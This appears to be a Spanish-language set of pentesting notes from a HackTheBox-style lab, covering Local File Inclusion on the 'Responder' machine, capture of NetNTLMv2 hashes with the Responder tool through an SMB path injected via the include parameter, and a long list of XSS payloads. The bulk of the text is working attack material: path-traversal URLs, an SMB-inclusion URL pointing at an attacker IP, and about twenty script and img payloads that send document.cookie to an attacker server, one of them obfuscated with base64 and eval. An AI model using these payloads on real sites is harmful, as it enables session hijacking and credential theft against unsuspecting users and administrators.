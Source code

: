 
###LFI ---> Local File Inclusion
``` 

Por ejemplo en la maquina responder htb tenemos la pagina http://unika.htb/index.php?page=french.html que puede ser vulnerable a LFI
si no esta bien configurada
En un sistema windows vamos a probar si funciona e incluye files en el sistema con la ruta de /system32 que siempre existe
http://unika.htb/index.php?page=../../../../../../../../windows/system32/drivers/etc/hosts
Una vez que sabemos que es vulnerable siendo windows podemos seleccionar un protocolo como SMB, windows intentara autenticarse
en nuestra maquina y nosotros capturaremos el NetNTLMv2 (New Technology Lan Manager) con la herramienta RESPONDER

###RESPONDER ---> (capturar NTLM entre otros)
```

Lo inicializamos --> sudo responder -I {network_interface} se ve con ifconfig
Ahora le decimos al server que incluya un recurso de nuestro SMB server con -Z http://unika.htb/?page=//10.10.14.25/somefile
con la ip de nuestra maquina atacante ( dara un error en la web pero en el responder tendremos  NetNTLMv del administrator)

### XSS
```

Robar cookies de admin ---> probar en el burpsuite con un payload con estos script, suele funcionar el siguiente ->>
<script>var i=new Image();i.src="http://10.10.14.3/?c="+document.cookie</script>

PREVIAMENTE: -> Se abre un servidor http por el puerto 80 por el que se recibirá la cookie del administrador, con esta cookie la cambiamos 
o bien dentro del burp suite o bien en el navegador -> (navegador) -> click derecho en el buscador, seleccionamos inspect element -> storage tab -> modificamos la cookie que hemos robado

<img src=x onerror=this.src="http://10.10.14.3/?c="+document.cookie>
<img src=x onerror="location.href='http://10.10.14.3/?c='+ document.cookie">
<script>new Image().src="http://10.10.14.3/?c="+encodeURI(document.cookie);</script>
<script>new Audio().src="http://10.10.14.3/?c="+escape(document.cookie);</script>
<script>location.href = 'http://10.10.14.3/Stealer.php?cookie='+document.cookie</script>
<script>location = 'http://10.10.14.3/Stealer.php?cookie='+document.cookie</script>
<script>document.location = 'http://10.10.14.3/Stealer.php?cookie='+document.cookie</script>
<script>document.location.href = 'http://10.10.14.3/Stealer.php?cookie='+document.cookie</script>
<script>document.write('<img src="http://10.10.14.3/?c='+document.cookie+'" />')</script>
<script>window.location.assign('http://10.10.14.3/Stealer.php?cookie='+document.cookie)</script>
<script>window['location']['assign']('http://10.10.14.3/Stealer.php?cookie='+document.cookie)</script>
<script>window['location']['href']('http://10.10.14.3/Stealer.php?cookie='+document.cookie)</script>
<script>document.location=["http://10.10.14.3/?c",document.cookie].join()</script>
<script>var i=new Image();i.src="http://10.10.14.3/?c="+document.cookie</script>
<script>window.location="https://10.10.14.3/?c=".concat(document.cookie)</script>
<script>var xhttp=new XMLHttpRequest();xhttp.open("GET", "http://10.10.14.3/?c="%2Bdocument.cookie, true);xhttp.send();</script>
<script>eval(atob('ZG9jdW1lbnQud3JpdGUoIjxpbWcgc3JjPSdodHRwczovLzxTRVJWRVJfSVA+P2M9IisgZG9jdW1lbnQuY29va2llICsiJyAvPiIp'));</script>
<script>fetch('https://your-subdomain-here.burpcollaborator.net/', {method: 'POST', mode: 'no-cors', body:document.cookie});</script>
<script>navigator.sendBeacon('https://ssrftest.com/x/AAAAA',document.cookie)</script>

